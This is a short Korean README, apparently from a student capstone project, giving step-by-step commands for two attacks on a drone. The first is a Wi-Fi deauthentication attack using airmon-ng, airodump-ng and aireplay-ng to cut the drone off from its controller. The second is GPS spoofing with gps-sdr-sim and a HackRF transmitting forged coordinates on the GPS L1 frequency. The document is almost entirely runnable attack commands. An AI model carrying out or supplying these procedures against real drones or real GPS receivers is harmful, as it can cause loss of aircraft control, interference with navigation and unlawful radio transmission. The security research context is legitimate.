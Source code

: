 캡스톤디자인I 코드
=================


1.인증해제 공격
---------------

무선 랜카드가 장착된 Kali Linux 환경에서 행한다.

> 불필요한 프로세스를 종료하고, 공격에 이용할 무선랜의 이름을 확인한다.
>
> ```bash
> airmon-ng check kill
> iwconfig
> ```


> 무선랜을 모니터 모드로 전환하고, 드론 AP의 패킷을 수집한다.
>
> ```bash
> airmon-ng start [무선랜 이름]
> airodump-ng [무선랜 이름] --essid-regex [드론의 MAC주소] -w [저장 파일명]
> ```


> 수집한 패킷에서 제어 기기의 MAC주소를 확인하고, 인증해제 공격을 실행한다.
>
> ```bash
> iwconfig [무선랜 이름] channel [드론 AP의 채널]
> aireplay-ng --deauth [공격 시간] -a [드론의 MAC주소] -c [제어 기기의 MAC주소] [무선랜 이름]
> ```



2.GPS Spoofing
---------------

HackRF-One을 연결한 Linux 환경에서 행한다.

> GPS-SDR-SIM Github를 클론 설치한다.
>
> ```bash
> git clone https://github.com/osqzss/gps-sdr-sim.git
> ```


> 설치된 디렉토리로 이동해 Spoofing할 위도/경도를 지정한 gps-sdr-sim 파일을 생성한다.
>
> ```bash
> cd ./gps-sdr-sim
> gcc gpssim.c -lm -O3 -o gps-sdr-sim
> ```


> 나사에서 최신 천체 파일을 다운로드하고, 압축해제한다.
>
> ```bash
> cp /home/user/[파일명.gz] ./gps-sdr-sim
> gzip -d [파일명.gz]
> ```


> 압축해제된 천체 파일로 위도, 경도를 지정한 gpssim.bin 파일을 생성한다.
>
> ```bash
> ./gps-sdr-sim -e [파일명] -l [위도],[경도] -b 8
> ```


> HackRF_One으로 변조된 좌표의 GPS 신호를 전송한다.
>
> ```bash
> hackrf_transfer -t gpssim.bin -f 1575420000 -s 2600000 -a 1 -x 40
> ```

1.인증해제 공격
---------------





[hackrf](https://github.com/greatscottgadgets/hackrf.git)
[gps-sdr-sim](https://github.com/osqzss/gps-sdr-sim)

